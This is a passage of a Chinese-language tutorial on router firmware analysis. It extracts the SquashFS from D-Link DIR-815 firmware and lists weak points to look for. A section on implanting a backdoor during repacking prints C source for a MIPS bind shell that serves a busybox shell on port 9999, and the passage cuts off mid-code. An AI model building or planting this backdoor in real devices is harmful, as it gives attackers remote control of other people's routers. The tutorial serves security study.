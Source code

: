 ```bash
hexdump -C ./DIR-815\ FW\ 1.01b14_1.01b14.bin | grep 'hsqs'
000f0080  00 00 00 00 00 00 00 00  00 00 00 00 68 73 71 73  |............hsqs|

dd if=./DIR-815\ FW\ 1.01b14_1.01b14.bin skip=983180 bs=1 count=100 of=test_head
iot@attifyos ~/D/dir815_FW_101> file test_head 
test_head: Squashfs filesystem, little endian, version 4.0, 2808054 bytes, 1526 inodes, blocksize: 262144 bytes, created: Thu May 12 14:14:40 2011
```

好了，我们从头部知道其整个文件系统大小为2808054 bytes，同样的方法再提取一次即可，然后根据其压缩算法用对应程序进行解压(一般为LZMA)



## 分析文件系统

搜索以下内容：

+ 不安全网络守护程序，例如telnetd（有时会伪装重命名文件）
+ 硬编码的凭证（用户名，密码，API密钥，SSH密钥和后门变体）
+ 可用作入口点的服务器更新函数
+ 查看未编译的代码并启动脚本执行远程代码

手动静态分析文件系统内容和未编译的代码，或利用诸如Firmwalker之类的自动化工具来分析敏感内容



## 解包重建

对以下情况我们要重新打包固件：

+ 固件植入后门程序
+ 固件仿真修patch某些和固件交互的函数

### 后门植入

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

#define SERVER_PORT	9999
 /* CC-BY: Osanda Malith Jayathissa (@OsandaMalith)
  * Bind Shell using Fork for my TP-Link mr3020 router running busybox
  * Arch : MIPS
  * mips-linux-gnu-gcc mybindshell.c -o mybindshell -static -EB -march=24kc
  */
int main() {
	int serverfd, clientfd, server_pid, i = 0;
	char *banner = "[~] Welcome to @OsandaMalith's Bind Shell\n";
	char *args[] = { "/bin/busybox", "sh", (char *) 0 };
	struct sockaddr_in server, client;
	socklen_t len;
	
	server.sin_family = AF_INET;
	server.sin_port = htons(SERVER_PORT);
	server.sin_addr.s_addr = INADDR_ANY; 

	serverfd = socket(AF_INET, SOCK_STREAM, 0);
	bind(serverfd, (struct sockaddr *)&server, sizeof(server));
	listen(serverfd, 1);

    while (1) { 
    	len = sizeof(struct sockaddr);
    	clientfd = accept(serverfd, (struct sockaddr *)&client, &len);
```